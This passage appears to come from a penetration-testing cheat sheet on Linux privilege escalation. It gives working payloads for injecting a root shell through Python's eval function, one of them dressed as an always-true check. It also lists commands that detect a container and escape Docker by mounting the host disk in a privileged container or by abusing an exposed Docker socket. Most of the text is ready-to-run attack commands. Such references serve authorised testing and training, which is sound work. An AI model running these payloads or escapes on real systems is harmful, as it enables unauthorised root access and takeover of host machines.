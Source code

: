 The _eval_ function in _Python_ is well-known for being vulnerable, as it can act in a global scope. If there isn't proper sanitization of the input, this can be leveraged to execute arbitrary system commands.

* We find a code that is run as the _root_ user and uses the eval function improperly

{% code overflow="wrap" lineNumbers="true" %}
```bash
__import__('os').system('/bin/bash') #Insert in the part where eval will act
```
{% endcode %}

***

* If it can't be inserted directly, we can add a validation that returns true, and then the payload

{% code overflow="wrap" lineNumbers="true" %}
```python
1+1 == 2 and __import__('os').system('/bin/bash')
```
{% endcode %}

## <mark style="color:orange;">Abusing Docker configurations</mark>

This could be used to escape a Docker container and gain access to the host system or to directly escalate privileges

* (Optional)  Try to determine if we are in a container environment

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /proc/1/cgroup # Check if the output contains docker
grep -iE 'docker|lxc|kubepods' /proc/1/cgroup #Check also other type of containers
ls -la /.dockerenv #Check if there is a configuration file at the root folder
cat /etc/hostname #Check if we see a hostname with hash values
ps -p 1 -o comm= #Check if the PID 1 process isn't the system init
```
{% endcode %}

***

* If the container was started with `--privileged` we could mount the host filesystem

{% code overflow="wrap" lineNumbers="true" %}
```bash
mkdir /tmp/host
mount -t proc none /tmp/host
mount /dev/sda1 /tmp/host
chroot /tmp/host /bin/bash
```
{% endcode %}

***

* We can also abuse the _Docker_ socket if it's exposed

{% code overflow="wrap" lineNumbers="true" %}
```bash
docker -H unix:///var/run/docker.sock images #If this works is a sign
docker -H unix:///var/run/docker.sock run -v /:/host --rm -it alpine chroot /host
```
{% endcode %}
